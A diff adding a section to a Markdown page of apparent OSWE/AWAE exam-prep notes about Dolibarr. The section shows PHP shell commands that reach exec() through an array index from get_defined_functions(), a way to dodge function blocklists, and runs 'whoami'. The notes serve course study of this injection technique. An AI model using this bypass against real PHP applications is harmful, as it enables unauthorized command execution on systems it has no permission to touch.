

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: Dolibarr/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Dolibarr/README.md
+++ b/Dolibarr/README.md
@@ -237,3 +237,38 @@ Array
 
 )
 ```
+
+As expected, the function returned an array containing all the defined functions.
+
+Let's verify we can invoke a function based on its array index value. We'll try `strlen()`, which is at index `4` of the `"internal"` array based on the output above.
+```bash
+php > echo get_defined_functions()["internal"][4]("hello world");
+11
+```
+Excellent. We invoked the `strlen()` function by accessing its array index in the array returned from `get_defined_functions()`. After reviewing the full list of values returned by `get_defined_functions()`, we'll find the functions we're most interested in start at index `550`.
+```bash
+php > print_r(get_defined_functions());
+Array
+(
+    [internal] => Array
+        (
+...
+            [550] => exec
+            [551] => system
+            [552] => passthru
+            [553] => escapeshellcmd
+            [554] => escapeshellarg
+            [555] => shell_exec
+...
+```
+```bash
+php > echo get_defined_functions()["internal"][550];
+exec
+php >
+```
+
+Let's verify we can invoke `exec()` this way and run `whoami`.
+```bash
+php > echo get_defined_functions()["internal"][550]("whoami");
+student
+```
````
